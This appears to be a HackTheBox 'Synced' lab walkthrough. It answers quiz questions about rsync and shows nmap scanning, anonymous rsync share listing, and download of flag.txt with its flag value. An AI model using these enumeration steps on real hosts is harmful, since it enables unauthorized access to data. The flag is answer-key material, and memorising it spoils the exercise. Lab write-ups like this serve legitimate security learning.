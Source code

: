 ```yaml
---
title: 🔵 HTB /  Synced
date: 2023-08-17
categories: [HackTheBox, Machines]
tags: [rsync]
---
```


# Synced

What is the default port for rsync?

`873`

How many TCP ports are open on the remote host?

`1`

What is the protocol version used by rsync on the remote machine?

`31`

What is the most common command name on Linux to interact with rsync?

`rsync`

What credentials do you have to pass to rsync in order to use anonymous authentication?

`None`

What is the option to only list shares and files on rsync?

`--list-only`

Submit root flag

```bash
$ nmap -sV -p- <ip>
...
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

$ rsync --list-only <ip>::
public         	Anonymous Share

$ rsync --list-only <ip>::public
drwxr-xr-x          4,096 2022/10/24 23:02:23 .
-rw-r--r--             33 2022/10/24 22:32:03 flag.txt

$ rsync -azvh None@<ip>::public ./
receiving incremental file list
./
flag.txt

sent 50 bytes  received 158 bytes  24.47 bytes/sec
total size is 33  speedup is 0.16

$ cat flag.txt
72eaf5344ebb84908ae543a719830519
```
